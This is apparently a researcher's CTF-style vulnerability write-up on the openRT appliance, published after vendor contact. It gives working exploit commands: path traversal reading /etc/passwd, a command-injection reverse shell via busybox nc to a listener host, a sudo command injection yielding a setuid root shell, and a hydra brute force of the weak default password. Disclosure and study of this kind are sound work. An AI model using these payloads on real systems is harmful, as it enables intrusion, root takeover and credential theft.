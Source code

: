 ```yaml
---
title: openRT Vulnerabilities
description: A review of the openRT appliance as we walkthrough exploiting an RCE and then privilege elevation
date: 2025-02-20
social_image: '/media/images/somuchwin.png'
tags: [openRT, RCE ]
---
```

# Vulnerability Review of openRT

Here we're going to conduct a web application security review of the OpenRT application.

[openRT Gitghub](https://github.com/amcchord/openRT/)

Installed from commit 59185b055ab2cf79e2fc2b1854c11e1a0bb5f798, the latest as of 20-03-25. This is a nice application to review because:

- It is extremely quick and easy to install
- The above is still true if you have no background knowledge of the appliances it works with
- Multiple languages are involved

## Vendor Response

Austin email back within hours of this report (which puts him about nine months ahead of an RMM vendor) clarifying the intended usage of the application, which they immediately documented. A screenshot of the updated README is below:

![openRT Disclaimer](/media/images/openrt_documentation.png)

And to be clear, this is an **entirely acceptable** position as long as you, the user, consider this in your deployment and threat modelling. Accordingly, this write up should be read through the lense of a CTF write up, more than a vulnerability publication.

## Exposed phpinfo()

As a minor annoyance, http://172.17.44.48/phpinfo.php is exposed in a default build.

## Arbitrary download

To describe an actual vulnerability, we can review the file download code here: [download.php](https://github.com/amcchord/openRT/blob/main/web/download.php), specifically:

```php


$agent_id = isset($_GET['agent']) ? $_GET['agent'] : '';
$path = isset($_GET['path']) ? $_GET['path'] : '';

if (!$agent_id || !$path) {
    die("Missing required parameters");
}

// Construct full path
$base_path = "/rtMount/$agent_id";
$full_path = "$base_path/$path";

// Security checks
if (!str_starts_with(realpath($full_path), realpath($base_path))) {
    die("Invalid path");
}
```

You can see there's been an attempt an enforcing a base path. In fact realpath() is exactly the function that's typically forgotten during typical arbitrary file download vulnerabilities. What's special in this case is that the base path is itself able to be set by a user, and `/rtMount/../` has a `realpath()` of the root directory. Therefore the following works:

```bash
$ curl "172.17.44.48/download.php?agent=../&path=../etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
..
```

## RCE

Finally we get to the good stuff. Let's look at [check_mount.php](https://github.com/amcchord/openRT/blob/main/web/check_mount.php)

```php
$mount_path = "/rtMount/$agent_id";

// Check if the directory exists and has mounted volumes
$output = [];
$return_var = 0;
exec("mount | grep '$mount_path' 2>&1", $output, $return_var);
```
This looks to be a classic command injection vulnerabililty. We can first test this runs as expected:

```bash
curl "172.17.44.48/check_mount.php?agent_id=test';touch%20pwned'"
```

And indeed it does, with `/usr/local/openRT/web/pwned` created. Now to exploit it:

```bash
$ curl "172.17.44.48/check_mount2.php?agent_id=test';busybox%20nc%20172.17.33.22%204444%20-e%20sh'"
```

From another tab, we can receive a connection and upgrade it to a full shell:

```bash
none@none-Virtual-Machine:~$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 172.17.44.48 34732
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@openrt:/usr/local/openRT/web$ ^Z
[1]+  Stopped                 nc -lnvp 4444
none@none-Virtual-Machine:~$ stty raw -echo; fg
nc -lnvp 4444

www-data@openrt:/usr/local/openRT/web$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),1001(openrt)
www-data@openrt:/usr/local/openRT/web$ 
```

## Root Privilege Elevation

The setup file [kioskSetup.sh](https://github.com/amcchord/openRT/blob/main/setup/kioskSetup.sh) adds sudo privileges for the www-data user for a few specific commands. We can review `rtImport.pl` for this interesting line:

```perl
        $status = `zpool import -d $device $pool_name 2>&1`;
```

The root exploit from here writes itself:

```bash
cp /bin/bash ./bash
sudo /usr/local/openRT/openRTApp/rtImport.pl import "test; chown root ./bash #"
sudo /usr/local/openRT/openRTApp/rtImport.pl import "test; chmod 4755 ./bash #"
www-data@openrt:/usr/local/openRT/web$ ./bash -p
bash-5.2# whoami
root
bash-5.2# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data),1001(openrt)
```

Given we can use this privesc immediately following the previous RCE, we now have a root RCE.

## Easily brute forced credentials

Default credentials are usually acceptable if you are pushed to change them, but as far as I can tell there's no documented method of changing the generated credential. The file [nassetup.sh](https://github.com/amcchord/openRT/blob/main/setup/nasSetup.sh) uses this code:

```
RANDOM_NUM=$(printf "%04d" $((RANDOM % 10000)))
PASSWORD="openRT-$RANDOM_NUM"
```

The random data involved is very small, specifically limited to four numbers. I generally dislike reporting on brute force vulnerabilities, but below shows a working brute force in under a minute.

```bash

for i in {0000..9999}; do
    echo "openRT-$i" >> openrt.txt
done
                                                                                                                                                   
none@kali:~/practice$ hydra -l explorer -P ./openrt.txt -f ftp://172.17.44.48 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-20 19:59:59
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10000 login tries (l:1/p:10000), ~625 tries per task
[DATA] attacking ftp://172.17.44.48:21/
[21][ftp] host: 172.17.44.48   login: explorer   password: openRT-0134
[STATUS] attack finished for 172.17.44.48 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-20 20:00:29
```

